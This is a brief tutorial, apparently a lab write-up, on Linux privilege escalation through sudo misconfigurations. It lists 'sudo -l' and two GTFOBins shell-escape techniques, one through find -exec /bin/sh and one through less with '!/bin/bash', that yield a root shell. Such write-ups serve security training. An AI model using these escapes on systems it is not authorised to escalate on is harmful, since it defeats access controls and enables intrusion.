



# Privilege Escalation: Sudo

In this privilege escalation technique, we search for command can use sude without password and find exploit code from GTFObins that can be used to get root privilege.

---
* **using command " sudo -l " : to know bins and found it.**

* **We find 3 bins :**
* **go to site : " https://gtfobins.linuxsec.org/ " and search exploit code to use it.**
* **search for " find " exploit code for this bin ,and we find " sudo find . -exec /bin/sh \\ ;  -quit "**

* **search for " less " exploit code for this bin ,and we find " sudo less /etc/hosts "**

* **Inside this page write " !/bin/bash "**

* **Then click enter ,now uou have root privilege**

